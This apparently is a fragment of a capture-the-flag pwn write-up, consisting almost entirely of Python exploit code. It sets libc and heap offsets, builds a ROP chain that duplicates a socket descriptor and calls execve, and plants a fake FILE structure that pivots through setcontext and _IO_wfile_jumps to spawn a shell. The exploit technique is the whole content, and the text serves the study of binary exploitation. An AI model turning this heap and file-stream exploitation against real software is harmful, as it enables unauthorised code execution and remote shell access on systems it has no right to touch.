 ```python
system=libc+0x58750
environ=libc+0x20ad58
_IO_wfile_jumps=libc+0x202228
setcontext=libc+0x4a99d

rop_addr=heap+0x850
rax=libc+0xdd237
rdi=libc+0x158748
rsi=libc+0x02b46b
syscall=libc+0x127185+4
rsp=libc+0x5ef6f
rdx=libc+0x162e3a

rop=p64(rax)+p64(0x21)
rop+=p64(rdi)+p64(4)+p64(0)*5
rop+=p64(rsi)+p64(0)*2
rop+=p64(syscall)

rop+=p64(rax)+p64(0x21)
rop+=p64(rdi)+p64(4)+p64(0)*5
rop+=p64(rsi)+p64(1)*2
rop+=p64(syscall)

rop+=p64(rax)+p64(0x3b)
rop+=p64(rdi)+p64(heap+0xd20)+p64(0)*5
rop+=p64(rsi)+p64(0)+p64(heap+0x978+0x28)
rop+=p64(rdx)+p64(0)*3+p64(heap+0x978+0x28)
rop+=p64(syscall)

edit(5, rop)

fake_io = flat({
    0x0: " sh;",
    0x10: p64(setcontext),
    0x20: p64(stdout),
    0x88: p64(rop_addr),  # _lock
    0xa0: p64(stdout),
    0xa8: p64(rsp),
    0xd8: p64(_IO_wfile_jumps + 0x10),
    0xe0: p64(stdout-8),
}, filler=b"\x00")


add(0x101, fake_io)
shell()
```



## RE
